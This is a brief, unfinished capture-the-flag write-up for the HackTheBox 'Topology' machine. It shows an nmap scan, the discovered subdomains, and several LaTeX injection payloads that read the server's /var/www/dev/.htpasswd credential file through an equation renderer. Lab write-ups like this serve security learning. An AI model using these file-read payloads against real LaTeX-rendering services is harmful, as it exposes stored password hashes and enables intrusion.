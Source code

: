 # #1 Introduction
<img width="691" alt="image" src="https://github.com/Mate0r/app.hackthebock.com/assets/94843357/17b93d9f-213a-43e4-8df5-45d166672edb">

# #2 nmap

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx topology.htb
```

we run an nmap scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -sV -p- topology.htb
```

we got these open ports
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# #3 user.txt

## HTTP (port 80)

http://latex.topology.htb/equation.php
http://stats.topology.htb/

http://topology.htb/css/
http://topology.htb/images/
http://topology.htb/javascript/
http://topology.htb/portraits/


\newread\f
\openin\f=/var/www/dev/.htpasswd
\read\f to\l
\text{\l}
textbackslash

\newread\f \openin\f=/var/www/dev/.htpasswd \read\f to\l \read\f to\l \read\f to\l \text{\l}

\detokenize{abc_def\#gh}


\newread\f \openin\f=/var/www/dev/.htpasswd \read\f to\l \text{\l}

dev
stats
latex
wildwest
cgi-bin

